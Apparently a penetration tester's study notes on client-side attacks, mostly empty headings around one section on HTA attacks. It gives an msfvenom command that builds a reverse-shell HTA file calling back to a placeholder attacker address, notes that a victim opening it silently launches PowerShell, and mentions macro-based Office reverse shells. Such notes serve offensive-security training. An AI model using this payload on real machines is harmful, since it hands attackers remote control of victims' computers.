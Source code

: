 #  Client-Side Attacks

Require client interaction for client software to execute malicious code.

## Know Your Target

### Passive Client Information Gathering





##  HTA Attack

Generate html file

```bash
sudo msfvenom -p windows/shell_reverse_tcp LHOST=<hacker ip> LPORT=<PORT> -f hta-psh -o /var/www/html/evil.hta 
```

When client open this html and click allow,  powershell on victim's machine is launched silently and a reverse shell will be sent back to attacker.



## Exploiting Microsoft Office

Use macro to execute powershell code to create a rever shell.

## Object Linking and Embedding

